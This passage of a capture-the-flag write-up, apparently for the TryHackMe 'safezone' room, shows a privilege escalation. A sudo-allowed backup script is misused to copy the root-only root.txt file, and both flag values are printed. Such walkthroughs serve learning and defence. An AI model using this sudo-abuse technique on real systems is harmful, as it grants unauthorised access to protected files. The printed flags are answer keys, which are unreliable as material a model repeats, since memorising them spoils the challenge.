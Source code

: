 ![](CYBERSECURITY/IMAGES/Pasted%20image%2020250519213957.png)

If we check our privileges, we can check this:

```
yash@safezone:/opt$ sudo -l
Matching Defaults entries for yash on safezone:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User yash may run the following commands on safezone:
    (root) NOPASSWD: /usr/bin/python3 /root/bk.py
```

We can run that script as root, let's use it first to check how it works:

```
yash@safezone:/opt$ sudo /usr/bin/python3 /root/bk.py
Enter filename:
Enter destination:
Enter Password:
Usage: sshpass [-f|-d|-p|-e] [-hV] command parameters
   -f filename   Take password to use from file
   -d number     Use number as file descriptor for getting password
   -p password   Provide password as argument (security unwise)
   -e            Password is passed as env-var "SSHPASS"
   With no parameters - password will be taken from stdin

   -P prompt     Which string should sshpass search for to detect a password prompt
   -v            Be verbose about what you're doing
   -h            Show help (this screen)
   -V            Print version information
At most one of -f, -d, -p or -e should be used
yash@safezone:/opt$
```

Seems like we can backup files, we can simply backup `root.txt` and finish the ctf:

```
yash@safezone:/opt$ sudo /usr/bin/python3 /root/bk.py
Enter filename: /root/root.txt
Enter destination: /home/yash/root.txt
Enter Password: test
```

Using any password still backups the file, we can now read both flags:

```
yash@safezone:/opt$ cat /home/yash/flag.txt
THM{c296539f3286a899d8b3f6632fd62274}

yash@safezone:/opt$ cat /home/yash/root.txt
THM{63a9f0ea7bb98050796b649e85481845}
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020250519214356.png)

